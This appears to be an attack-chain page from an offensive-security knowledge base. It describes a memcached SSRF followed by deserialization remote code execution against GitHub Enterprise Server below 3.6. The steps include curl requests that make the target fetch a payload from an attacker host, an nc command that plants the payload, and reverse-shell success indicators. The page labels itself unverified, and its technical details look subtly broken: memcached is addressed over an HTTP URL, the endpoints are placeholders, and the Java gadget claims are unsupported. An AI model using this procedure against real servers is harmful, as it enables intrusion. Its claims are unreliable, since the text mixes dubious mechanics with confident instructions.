

# SVNBridge Deserialization RCE via Memcached SSRF in GitHub Enterprise Server

Multi-stage attack chain demonstrating a complete attack workflow exploiting vulnerabilities in GitHub Enterprise Server's SVNBridge component.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Advanced |
| Complexity | High |
| Impact Level | Critical |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Memcached-Server]] (attacker-controlled memcached instance)
- Network tools for SSRF testing (e.g., curl)

### Target Environment

- GitHub Enterprise Server versions < 3.6
- SVNBridge component enabled
- Memcached service accessible internally
- Web platform with server-side request capabilities

### Initial Access Requirements

- Network access to the GitHub Enterprise Server web interface
- No prior credentials needed if SSRF endpoint is public-facing
- Attacker must host a malicious memcached server

## Detailed Attack Procedures

### Step 1: Exploit SSRF to Control Memcached Data
procedure: [[procedures/Exploiting-SSRF-to-Control-Memcached-Data]]

**Objective**: Use SSRF to force the server to fetch malicious serialized data from an attacker-controlled memcached instance.

**Instructions**: Identify the SSRF-vulnerable endpoint in GitHub Enterprise Server that allows server-side HTTP requests without validation. Use a tool like curl to send a request that redirects the server's internal request to your memcached server (e.g., on port 11211) containing gadget chains for deserialization.

```bash
curl -X POST 'https://target-github-enterprise/api/ssrf-endpoint' \
  -d 'url=http://attacker-memcached:11211/get?key=malicious-serialized-payload'
```

Then, set the malicious payload in your memcached instance using a client:

```bash
echo 'serialized-gadget-chain-for-rce' | nc attacker-memcached 11211 -q 1
```

**Expected Output**: Server responds with indication of internal request (e.g., no error, or partial data leak), confirming SSRF success.

**Success Indicators**:
- No client-side error on SSRF request
- Server logs show internal connection to memcached (if accessible)
- Memcached server logs incoming get request for the key

### Step 2: Trigger Deserialization RCE in SVNBridge
procedure: [[procedures/Triggering-Deserialization-RCE-in-SVNBridge]]

**Objective**: Chain the SSRF-delivered data to trigger unsafe deserialization in SVNBridge, executing arbitrary code on the server.

**Instructions**: With the malicious data now sourced from memcached due to SSRF, interact with the SVNBridge component to process the untrusted input. For example, attempt a SVN operation that invokes SVNBridge deserialization without validation.

```bash
curl -X POST 'https://target-github-enterprise/svnbridge/operation' \
  -d 'svn-data-source=memcached-key-with-payload' \
  -H 'Content-Type: application/xml'
```

The deserialization occurs when SVNBridge fetches and processes the memcached data, leading to RCE if the payload includes executable gadgets (e.g., Java deserialization gadgets like CommonsCollections).

**Expected Output**: Server executes the payload, potentially returning command output or crashing with deserialization errors; successful RCE may show reverse shell connection or file write.

**Success Indicators**:
- Evidence of code execution (e.g., reverse shell, file creation)
- Server error logs indicating deserialization attempt
- Impact on server resources (e.g., high CPU from payload)

## Attack Chain Summary

### Key Achievements

1. Bypassed input validation using SSRF to source untrusted memcached data
2. Exploited deserialization in SVNBridge for arbitrary RCE
3. Demonstrated full chain impact on GitHub Enterprise Server pre-3.6

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Exploitation of Remote Services]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
